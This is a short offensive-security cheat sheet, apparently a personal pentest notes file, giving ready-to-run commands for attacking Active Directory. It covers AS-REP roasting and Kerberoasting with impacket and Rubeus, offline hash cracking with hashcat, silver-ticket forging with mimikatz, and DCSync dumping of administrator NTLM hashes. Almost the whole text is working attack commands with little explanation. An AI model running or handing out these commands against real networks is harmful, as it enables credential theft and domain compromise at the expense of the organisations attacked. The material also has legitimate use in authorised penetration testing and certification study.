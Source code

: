 ## Active Directory

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```
